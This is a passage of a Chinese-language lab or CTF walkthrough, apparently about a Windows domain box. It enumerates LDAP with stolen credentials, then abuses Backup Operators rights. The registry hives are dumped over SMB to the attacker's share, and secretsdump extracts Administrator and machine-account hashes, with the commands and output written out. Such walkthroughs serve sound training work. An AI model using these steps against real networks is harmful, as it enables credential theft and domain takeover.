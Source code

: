 使用ldapdomaindump工具进行详细的LDAP信息收集：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ python3 /usr/lib/python3/dist-packages/ldapdomaindump -u 'SOUPEDECODE.LOCAL\zximena448' -p 'internet' 192.168.205.146
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

通过查看生成的HTML报告，发现zximena448用户是**Backup Operators**组的成员。

## Backup Operators权限利用

Backup Operators是Windows的内置组，该组成员具有SeBackupPrivilege特权，可以读取域控制器上的敏感文件，包括SAM数据库。

### 设置SMB服务器

在攻击机上启动SMB服务器接收备份文件：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ impacket-smbserver share . -smb2support
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
...
```

### 备份注册表

利用SeBackupPrivilege特权备份SAM、SYSTEM和SECURITY注册表：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ impacket-reg 'zximena448:internet@192.168.205.146' backup -o '\\192.168.205.128\share'
[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to \\192.168.205.128\share\SAM.save
[*] Saved HKLM\SYSTEM to \\192.168.205.128\share\SYSTEM.save
[*] Saved HKLM\SECURITY to \\192.168.205.128\share\SECURITY.save
```

### 提取本地哈希

使用secretsdump工具从备份的注册表文件中提取密码哈希：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ impacket-secretsdump -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
...
[*] $MACHINE.ACC 
...
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:aa905227fd1b4142a01a09912606af5c
...
```

